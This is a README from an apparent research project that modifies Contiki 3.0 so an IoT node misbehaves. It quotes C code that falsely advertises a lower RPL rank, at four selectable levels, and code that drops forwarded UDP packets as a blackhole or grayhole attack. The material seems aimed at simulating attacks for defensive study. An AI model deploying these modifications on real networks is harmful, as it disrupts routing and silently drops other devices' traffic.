 This modified contiki version is part of the ![ASSET controller](https://github.com/SWNRG/ASSET) project.

Other versions of contiki-mailicous code for the same project above, can be found:
![https://github.com/SWNRG/contiki-malicious-controller-aware](https://github.com/SWNRG/contiki-malicious-controller-aware)
![https://github.com/SWNRG/contiki-malicious-controller-aware-version-attack](https://github.com/SWNRG/contiki-malicious-controller-aware-version-attack)


Changes in this contiki 3.0 for the malicious node:
General rule, all changes have a comment starting with // George
(Dont confuse it with George Oikonomou...)

set MALICIOUS_LEVEL in project.conf (from 0-4).
By default it has the value 2 in rpl-icmp6.c

core/net/rpl/rpl-icmp6.c
l514: poisoning the advertised rank of the malicious node.
You can choose "how much" to poison it.

###/* ******************* POISONING DIOs **************************** */
  /* George Poisoining the DIO sent to neighbors:
   * The rank of the malicious node is fakely advertised as lower.
   * it can be three different levels: light, adequate, severe.
   * In all cases, if the malicious is closer to the sink, the rank
   * will be slightly above the sink's rank (So RPL will root 
   * normally from nodes via the malicious to the sink.
   * Sink's rank is usually 128, PARENT_SWITCH_THRESHOLD is 96 or 160.
   * A node's rank should not be lesser than the sink, hence it should 
   * be more than 128. Choose wisely....
   */
   int fake_rank; 
   switch(MALICIOUS_LEVEL){
	  case 4:
		 fake_rank = dag->rank - 3*PARENT_SWITCH_THRESHOLD > 				       	 
		 	 2*PARENT_SWITCH_THRESHOLD ?
			 dag->rank - 4*PARENT_SWITCH_THRESHOLD : PARENT_SWITCH_THRESHOLD;	 
	  	 break;
	  case 3:
		 fake_rank = dag->rank - 3*PARENT_SWITCH_THRESHOLD > 				       	 
		 	 2*PARENT_SWITCH_THRESHOLD ?
			 dag->rank - 3*PARENT_SWITCH_THRESHOLD : PARENT_SWITCH_THRESHOLD;	 
	  	 break;
	  case 2:
		 fake_rank = dag->rank - 3*PARENT_SWITCH_THRESHOLD > 
		 	 2*PARENT_SWITCH_THRESHOLD ?
			 dag->rank - 2*PARENT_SWITCH_THRESHOLD : PARENT_SWITCH_THRESHOLD;		 
	    break;
	  case 1:
		 fake_rank = dag->rank - 3*PARENT_SWITCH_THRESHOLD >
		 	 2*PARENT_SWITCH_THRESHOLD ?
			 dag->rank - PARENT_SWITCH_THRESHOLD : PARENT_SWITCH_THRESHOLD;		 
	    break; 
	  default: // All other number
 	  printf("No MALICIOUS_LEVEL set, NORMAL dag->rank\n");
 	  fake_rank = dag->rank;
  }
  printf("PARENT_SWITCH_THRESHOLD:%d, dag->rank:%d, fake:%d\n",
  			PARENT_SWITCH_THRESHOLD, dag->rank,fake_rank);
  set16(buffer, pos, fake_rank);
  //set16(buffer, pos, dag->rank);
  
  
  
uip6.c
l155
/* George variable to be set at the app layer by a malicious node */
uint8_t intercept_on = 0;

l1261: blackhole and grayhole attacks.
Intercepting UDP messages and either never forward them (blackhole),
or randomly decide (50%) whether to send it or not (greyhole).
define variables in project.conf (of the malicious node contiki).

/* ********** George ************************************ */      
/* George While intercept_on == 1 the "goto send;" is not on.
 * if !goto send; packets are not forwarded any more. 
 * Traffic is therefor intercepted by a malicious node.
 * TODO: you want to do something with this traffic?
 */  		
		
		 if(intercept_on == 1){ 	 
#ifdef GREY_SINK_HOLE_ATTACK
			 int sendON=(int)random_rand()%2;
			 if(sendON == 0){
			 	  printf("DATA INTERCEPTED from: ");
			 	  printShortaddr(&UIP_IP_BUF->srcipaddr); 	
			 	  printf(" travelling to node: "); 
	  			  printShortaddr(&UIP_IP_BUF->destipaddr);
	  			  printf("\n");	
	  		 }else{ // sendOn !=0	  		
				  printf("DATA LET GO from: ");
			 	  printShortaddr(&UIP_IP_BUF->srcipaddr); 	
			 	  printf(" travelling to node: "); 
	  			  printShortaddr(&UIP_IP_BUF->destipaddr);
	  			  printf("\n");	
	  			  
	  			  UIP_STAT(++uip_stat.ip.forwarded);
				  goto send;
	  		 }			 
#else
		 	  printf("DATA from: ");
		 	  printShortaddr(&UIP_IP_BUF->srcipaddr); 	
		 	  printf(" NEVER SENT to node: "); 
  			  printShortaddr(&UIP_IP_BUF->destipaddr);
  			  printf("\n");		 			 
#endif /* GREY_SINK_HOLE_ATTACK */	
 
	  	 }else{
	  
#if PRINT_ROUTE_ON  /* George Variable in project.conf */   
				printf("DATA UDP from: ");
				printShortaddr(&UIP_IP_BUF->srcipaddr);
				printf("	NORMALLY  pass to node: "); 
				printShortaddr(&UIP_IP_BUF->destipaddr);
				printf("\n");
#endif	
/* ****************************************************** */   


